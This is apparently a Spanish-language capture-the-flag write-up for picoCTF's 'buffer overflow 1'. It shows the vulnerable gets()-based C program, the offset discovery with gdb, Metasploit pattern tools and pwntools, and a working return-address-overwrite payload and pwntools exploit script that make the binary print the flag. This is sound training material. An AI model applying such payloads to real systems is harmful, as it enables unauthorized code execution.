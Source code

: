 # buffer overflow 1

Smash the stack Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/522/vuln). You can view source [here](https://artifacts.picoctf.net/c/522/vuln.c). And connect with it using: `nc saturn.picoctf.net 51110`

h1: How can you trigger the flag to print?

h2: If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.

h3:Run `man gets` and read the BUGS section. How many characters can the program really read?
	https://www.kernel.org/doc/man-pages/
## Solucion
### El analisis del C
- Nos dan un archivo fuente en lenguaje C
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}

```
- tres funciones main, win, vuln
- pide una cadena y la manda al funcion **vul** l
	- usa gets (ver la pista y consultar manual gets, seccion BUGS), aqui se excede el buffer
	- Imprime la direccion de retorno (se puede explicar en el x86 assembly)
- la funcion win nunca es invocada, pero podemos investigar su direccion e **saltar aprovechando l bufferoverflow**

### Solucion manual
- un texto pequeno origna un salto dentro de main
```bash
┌──(kali㉿kali)-[~/picoctf/pwning/buferoverflow1]
└─$ ./vuln
Please enter your string: 
carlos
Okay, time to return... Fingers Crossed... Jumping to 0x804932f
```
- lo podemos comprobar usando gdb
```
gdb vuln
info functions
disassemble main
```

- podemos desborarlo con letras A directo o con python y observamos como se invade con 0x41414141

```bash
┌──(kali㉿kali)-[~/picoctf/pwning/buferoverflow1]
└─$ python -c 'print("A"*50)' | ./vuln 
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x41414141
zsh: done                python -c 'print("A"*50)' | 
zsh: segmentation fault  ./vuln

```

- Calcular hasta donde no entran 414141 para saber donde se sobrepasa la direccion de retorno, aqui entro una A entonces es 44

```bash
┌──(kali㉿kali)-[~/picoctf/pwning/buferoverflow1]
└─$ python -c "print('A'*45)" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x8040041
zsh: done                python -c "print('A'*45)" | 
zsh: segmentation fault  ./vuln
```
- donde quedan las 42424242 que son las 4 BBBB
```bash
┌──(kali㉿kali)-[~/picoctf/pwning/buferoverflow1]
└─$ python -c "print('A'*44+'BBBB')" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x42424242
zsh: done                python -c "print('A'*44+'BBBB')" | 
zsh: segmentation fault  ./vuln
```
- invesigamos la direccion de retorno con ojdump
```bash
┌──(kali㉿kali)-[~/picoctf/pwning/buferoverflow1]
└─$ objdump -D vuln -M intel | grep '<win>'
080491f6 <win>:
```
- mandamos adicional la direccion de retorno despues del buffer, al reves

```bash
┌──(kali㉿kali)-[~/picoctf/pwning/buferoverflow1]
└─$ python -c "print('A'*44+'\xf6\x91\x04\0x8')" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x91c2b6c3
zsh: done                python -c "print('A'*44+'\xf6\x91\x04\0x8')" | 
zsh: segmentation fault  ./vuln

```


``` bash
echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08' | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{}
zsh: done                echo -ne 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08' | 
zsh: segmentation fault  ./vuln

```

```bash
┌──(kali㉿kali)-[~/picoctf/pwning/buferoverflow1]
└─$ echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08' | nc saturn.picoctf.net 59637
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_c76b273b}
```

### Econtrar el pattern
- usamos pattern_create
```bash
┌──(kali㉿kali)-[~/picoctf/pwning/buferoverflow1]
└─$ locate pattern_create                                                 
/usr/bin/msf-pattern_create
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb
                                                
┌──(kali㉿kali)-[~/picoctf/pwning/buferoverflow1]
└─$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

```
- probamos el pattern
```bash
┌──(kali㉿kali)-[~/picoctf/pwning/buferoverflow1]
└─$ echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A" | ./vuln 
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x35624134
zsh: done                echo  | 
zsh: segmentation fault  ./vuln
```

- calculamos el offset antes de desbordar la direccion de retorno
```bash
┌──(kali㉿kali)-[~/picoctf/pwning/buferoverflow1]
└─$ locate pattern_offset                                                     
/usr/bin/msf-pattern_offset
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb
                                                  
┌──(kali㉿kali)-[~/picoctf/pwning/buferoverflow1]
└─$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 35624134
[*] Exact match at offset 44

```

### Econtrar el patron otra forma
```python
>>> from pwn import *
>>> cyclic(100)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
```

```bash
┌──(kali㉿kali)-[~/picoctf/pwning/buferoverflow1]
└─$ echo "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa" | ./vuln 
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c
zsh: done                echo  | 
zsh: segmentation fault  ./vuln
```

```python
>>> cyclic_find(0x6161616c)
44
>>> 
```

### Solucion automatizada

```python
from pwn import *

def inicio(server=True):
        if(server):
                return remote('saturn.picoctf.net',65234)
        else:
                return process('./vuln')


overflow = 'A'*44+'\xf6\x91\x04\x08'

p = inicio(False)
linea = p.recvuntil(':')
print(linea)
print('[*] Enviando Overflow ..')
p.sendline(overflow)
p.interactive()

```



### Desbordamos python

- Encontrar la cantidad de caracteres que necesitamos para desbodar el buffer

```
bufferoverflow1 python3 -c "import sys;sys.stdout.buffer.write(b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa')" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c
qemu: uncaught target signal 11 (Segmentation fault) - core dumped
[1]    38387 done                python3 -c  | 
       38388 segmentation fault  ./vuln
➜  bufferoverflow1 
```


```
➜  bufferoverflow1 python3                                                                                         
Python 3.12.3 (main, Jul 31 2024, 17:43:48) [GCC 13.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> cyclic(100)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
>>> cyclic_find(0x6161616c)
44
>>> 
```


```
python3 -c "import sys;sys.stdout.buffer.write(b'A'*48)" | ./vuln

python3 -c "import sys;sys.stdout.buffer.write(b'A'*44+b'\xf6\x91\x04\x08')" | ./vuln

python3 -c "import sys;import pwn;sys.stdout.buffer.write(b'A'*44+pwn.p32(0x080491f6))" | ./vuln
```